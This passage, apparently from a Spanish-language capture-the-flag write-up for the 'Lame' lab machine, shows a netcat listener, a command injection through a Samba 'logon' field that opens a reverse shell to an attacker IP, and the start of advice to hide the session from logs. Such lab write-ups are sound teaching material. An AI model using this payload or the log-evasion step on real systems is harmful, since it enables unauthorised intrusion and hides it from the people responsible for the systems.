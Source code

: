 ```LINUX
nc -nlvp 443
```

E inyectamos el siguiente comando en el objetivo:

```Linux
logon "/= ' nc -e /bin/bash 10.10.16.24 443 '"
```

- `-e /bin/bash`: Este parámetro indica que netcat debe ejecutar /bin/bash (la shell de Bash) cuando se establezca la conexión.

![IMG-30](../../../../assets/Lame/30.png)

Aquí ya tenemos una shell, pero requerimos "[estabilizarla](https://invertebr4do.github.io/tratamiento-de-tty/#)".

### Estabilizando la Shell

1. Iniciamos una sesión de shell que no guarde registros de comandos (para que no se percaten que estamos conectados)
